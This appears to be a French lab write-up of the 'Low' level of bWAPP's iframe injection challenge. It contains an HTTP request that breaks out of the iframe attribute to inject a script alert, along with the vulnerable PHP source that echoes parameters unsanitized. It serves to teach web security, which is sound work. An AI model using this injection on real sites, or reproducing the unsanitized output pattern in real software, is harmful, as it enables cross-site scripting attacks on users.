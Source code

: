# Niveau "Low"

## Exploitation

La page du challenge permet de charger une `<iframe></iframe>`. L'URL admet 3 paramètres :&#x20;

* le premier, `ParamURL`, est l'URL cible de l'iframe, ayant comme valeur par défaut "robots.txt"
* le second et la troisième, `ParamWidth` et `ParamHeight`, sont la taille en largeur et en hauteur de l'iframe, ayant comme valeur par défaut "250"

![](<../../../../../.gitbook/assets/image (8) (2).png>)

Avant de tenter de contourner l'iframe (via ses attributs) afin d'injecter du code Javascript, il est possible d'analyser l'assainissement des paramètres d'entrée. Est ce que l'application assainie correctement les caractères tels que `"`, `'` ou encore `<` et `>` :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=robots.txt%22%3E%3C/iframe%3E%3Cscript%3Ealert(1)%3C/script%3E%3Ciframe%20src=%22&ParamWidth=250&ParamHeight=250 HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=0; PHPSESSID=94d5a1179643bdb8e87d3d0039b6cac5
Connection: close
```

![](<../../../../../.gitbook/assets/image (33).png>)

L'injection est donc ici réussi facilement.&#x20;

## Analyse du code source

L'application récupère les variables et affiche le retour de la méthode `xss()` en tant que valeur des attributs HTML de l'iframe (le niveau de sécurité est ici 0 pour le niveau "Low" exécutant le code situé dans le `else`) :&#x20;

{% code title="iframei.php" %}
```php
<?php
  if($_COOKIE["security_level"] == "1" || $_COOKIE["security_level"] == "2") {
?>
    <iframe frameborder="0" src="robots.txt" height="<?php echo xss($_GET["ParamHeight"])?>" width="<?php echo xss($_GET["ParamWidth"])?>"></iframe>
<?php
  }
  else {
?>
    <iframe frameborder="0" src="<?php echo xss($_GET["ParamUrl"])?>" height="<?php echo xss($_GET["ParamHeight"])?>" width="<?php echo xss($_GET["ParamWidth"])?>"></iframe>
<?php
  }
?>
```
{% endcode %}

La méthode `xss()` est un `switch` exécutant une certaine méthode selon le niveau de sécurité actuel : &#x20;

{% code title="iframei.php" %}
```php
function xss($data) {
  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);      
      break;
    case "1" :
      $data = xss_check_4($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;   
  }

  return $data;
}
```
{% endcode %}

Dans le cas du niveau "Low", la méthode `no_check()` est exécutée, mais comme son nom l'indique, elle ne fais aucun assainissement et retourne seulement le paramètre passée en paramètre :&#x20;

{% code title="functions_external.php" %}
```php
function no_check($data) {
  return $data;
}
```
{% endcode %}
